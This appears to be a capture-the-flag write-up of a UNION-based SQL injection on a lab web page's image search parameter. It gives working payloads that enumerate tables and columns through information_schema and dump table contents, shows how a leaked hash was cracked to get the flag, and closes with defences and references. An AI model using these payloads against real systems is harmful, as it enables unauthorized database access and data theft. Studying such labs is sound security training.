 # SQL injection

## Found on
```
<ip>/?page=searchimg
```

## How to exploit

Typing anything other than an id (integer) returns an SQL error. This gives an indication that the input is not sterilized before running a query.

This is very dangerous as attackers notice these things and mark inputs and fields like these as targets.  

1. To get table names:
```
3 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database()
```

2. To get user table column names:
```
3 UNION SELECT column_name, null FROM information_schema.columns WHERE table_schema = database()
```

3. To get all data of users:
```
3 UNION SELECT title, comment FROM list_images
```

The last injection reveals this:
```
ID: 3 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

With these instructions getting the flag was easy.
1. Decript the hash -> albatroz
2. Encrypt the lowercase phrase with Sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

[MD5 decryption utility](https://hashtoolkit.com/decrypt-md5-hash)

## A brief explination of the SQL attack

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* <https://owasp.org/www-community/attacks/SQL_Injection>
* <https://portswigger.net/web-security/sql-injection/union-attacks>
* <https://dev.mysql.com/doc/refman/8.0/en/information-schema.html>
* <https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/>